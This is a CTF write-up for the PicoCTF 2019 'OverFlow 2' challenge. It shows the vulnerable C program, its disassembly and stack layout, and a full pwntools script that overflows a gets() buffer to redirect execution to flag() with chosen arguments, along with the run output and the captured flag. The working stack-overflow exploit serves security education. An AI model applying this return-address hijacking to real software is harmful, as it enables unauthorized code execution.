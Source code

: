 # PicoCTF 2019 - OverFlow 2
Author: PinkNoize

Binary Exploitation - 250

> Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434 on the shell server.

## TL;DR

The challenge provides a program with a classic buffer overflow and a function to print the flag. To solve, overwrite a return address with the address of the flag function and set the expected function arguments.

# Writeup

This challenge is identical to [OverFlow 1](overflow1.md) except that it expects certain arguments to be passed to `flag()`. This challenge provides us with a flag file, a binary and the source code for that binary.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Like Overflow 1, we have to change the return address of `vuln()` to `flag()`. We can get the offset from `buf` to the return address by viewing the assembly.

```gas
08048676 <vuln>:
8048676:       55                      push   ebp
8048677:       89 e5                   mov    ebp,esp
8048679:       53                      push   ebx
804867a:       81 ec b4 00 00 00       sub    esp,0xb4
8048680:       e8 9b fe ff ff          call   8048520 <__x86.get_pc_thunk.bx>
8048685:       81 c3 7b 19 00 00       add    ebx,0x197b
804868b:       83 ec 0c                sub    esp,0xc
804868e:       8d 85 48 ff ff ff       lea    eax,[ebp-0xb8]
8048694:       50                      push   eax
8048695:       e8 96 fd ff ff          call   8048430 <gets@plt>
804869a:       83 c4 10                add    esp,0x10
804869d:       83 ec 0c                sub    esp,0xc
80486a0:       8d 85 48 ff ff ff       lea    eax,[ebp-0xb8]
80486a6:       50                      push   eax
80486a7:       e8 b4 fd ff ff          call   8048460 <puts@plt>
80486ac:       83 c4 10                add    esp,0x10
80486af:       90                      nop
80486b0:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
80486b3:       c9                      leave  
80486b4:       c3                      ret    
```
From the call to `gets()`, we can see that the only local variable, `buf`, is placed at ebp-0xb8. Knowing that ebp points at the previous base pointer, we can figure out that the return address is located at ebp+0x4. This means we have to write (ebp+0x4-(ebp-0xb8)) = 0xbc bytes to overwrite the return address.
```
High Addresses
                /-----------------------\
                | Previous Stack Frame  |
                \-----------------------/
                /-----------------------\
                |       Arguments       |
                |-----------------------|
                |     Return Address    |
    Current     |-----------------------|
    Stack       | Previous Base Pointer | <-- ebp
    Frame       |-----------------------|
                |  Backed up Registers  | 
                |-----------------------|
                |    Local Variables    | <-- esp
                \-----------------------/
Low Addresses
```

We will also have to pass arguments to flag if we want it to print the flag. As we are not calling a function but instead doing a return to the start of the function, we need to setup the stack so that after the return from `vuln()`, we will have half of the stack frame setup. Before the return from `vuln()`, our stack will have to look like this...

```
                /-----------------------\
                |          Arg2         |
                |-----------------------|
                |          Arg1         |
                |-----------------------|
                |  Dummy Return Address |
                |-----------------------|
                |     flag() Address    |
                |-----------------------|
                |          AAAA         | <-- ebp
                |-----------------------|
                |          AAAA         |
                |-----------------------|
                            .
                            .
                            .
                |          AAAA         | <-- esp
                \-----------------------/ 
```

I will be using [pwntools](https://github.com/Gallopsled/pwntools) to create the exploit for this one to show how a CTF framework can simplify some of the quirks of exploit writing. The script below requires you to [setup ssh keys](https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys--2) for the picoCTF shell server.

```python
from pwn import *
# arch or architecture is i386 as this is a 32 bit binary (you can check this with file)
# os or operating system is linux as the picoCTF shell is on a linux system 
context(arch='i386', os='linux')

# ssh into the shell server
s1 = ssh(
    host='2019shell1.picoctf.com',
    user='user',
    keyfile='~/.ssh/picoCTF',
)
s1.set_working_directory(b'/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434')
# run vuln
p = s1.process('./vuln')
# parse the elf file
elf = p.elf

flag_addr = elf.symbols['flag']

# Receive the prompt
p.recvline()

# Pad up to the return address
payload = b"A"*(0xBC)

# add flag() address as a 32 bit value
# pwntools automatically makes it little endian as we specified the context above
payload += p32(flag_addr)

# Add dummy return
payload += p32(0xAAAAAAAA)

# Add arg1
payload += p32(0xDEADBEEF)

# Add arg2
payload += p32(0xC0DED00D)

# Send the payload
p.sendline(payload)

print(p.recvallS())
p.close()
```

We can then run this script to receive the flag. Make sure to substitute your username and path to keyfile.

```bash
┌─[user@hostname]─[~]
└──╼ $python3 solution.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] user@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] Working directory: '/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434'
[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1935868
[+] Opening new channel: 'readlink -f /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln': Done
[+] Receiving all data: Done (61B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[+] Downloading '/lib32/libc.so.6' to '/home/user/2019shell1.picoctf.com/lib32/libc.so.6': Found '/lib32/libc-2.27.so' in ssh cache
[+] Downloading '/lib/ld-linux.so.2' to '/home/user/2019shell1.picoctf.com/lib/ld-linux.so.2': Found '/lib32/ld-2.27.so' in ssh cache
[+] Downloading '/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln' to '/home/user/2019shell1.picoctf.com/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln': Found '/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln' in ssh cache
[*] '/home/user/2019shell1.picoctf.com/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Receiving all data: Done (238B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1935868)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAæ
\x04ªªªªï¾­ÞÐÞÀ
picoCTF{arg5_and_r3turn598632d70}
```
